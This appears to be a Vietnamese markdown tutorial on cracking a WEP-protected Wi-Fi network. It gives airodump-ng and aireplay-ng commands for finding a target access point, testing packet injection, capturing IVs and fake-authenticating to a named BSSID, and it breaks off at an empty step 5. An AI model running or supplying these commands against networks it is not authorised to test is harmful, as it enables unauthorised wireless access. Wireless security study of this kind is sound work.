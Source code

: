 # Airodump-ng + Aircrack-ng + Aireplay-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```

![Dùng airodump tìm kiếm access point](images/airodumpforvictim.png)

Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **a Tan 99 muon ket ban 4 phuong**
- Channel: **11**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 11
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```

![Test packet injection](images\testinjectionpacket.png)

Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 11 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```

![Test packet injection](images\airodumpforiv.png)

## Bước 4 -

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h 8C:F5:A3:1E:4E:37 wlan0mon
```

![](images\aireplay1.png)

## Bước 5 -
